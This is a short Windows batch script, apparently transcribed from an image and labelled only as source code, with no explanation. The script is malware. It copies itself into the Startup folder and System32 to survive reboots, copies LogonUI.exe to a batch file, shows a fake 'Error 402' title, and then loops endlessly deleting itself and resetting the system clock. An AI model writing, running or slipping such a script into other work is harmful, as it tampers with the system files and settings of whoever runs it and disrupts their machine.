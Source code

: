 @echo off
copy %0 %appdata%\Microsoft\Windows\Start Menu\Programs\Startup
cd C:\Windows\System32
copy %0 C:\Windows\System32
xcopy LogonUI.exe InstallHelper.bat
chcp 65001
title Ошибка 402 Error 402
:winCrash
copy %0
del %0
time 3:00
time 12:00
goto winCrash

